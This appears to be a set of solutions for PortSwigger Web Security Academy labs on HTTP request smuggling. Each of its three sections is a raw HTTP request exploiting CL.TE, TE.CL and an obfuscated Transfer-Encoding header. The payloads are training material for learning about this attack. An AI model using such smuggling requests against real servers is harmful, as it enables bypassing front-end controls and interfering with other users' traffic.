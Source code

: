 # Lab: HTTP request smuggling, basic CL.TE vulnerability

```http
POST / HTTP/1.1
Host: 0ac7009304a7e7d88057493e00ab00ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0

G
```

# Lab: HTTP request smuggling, basic TE.CL vulnerability

```http
POST / HTTP/1.1
Host: 0aae001a0461881f8267b660009100ab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

# Lab: HTTP request smuggling, obfuscating the TE header

```http
POST / HTTP/1.1
Host: 0a97003c04005bce8042c64000a20084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
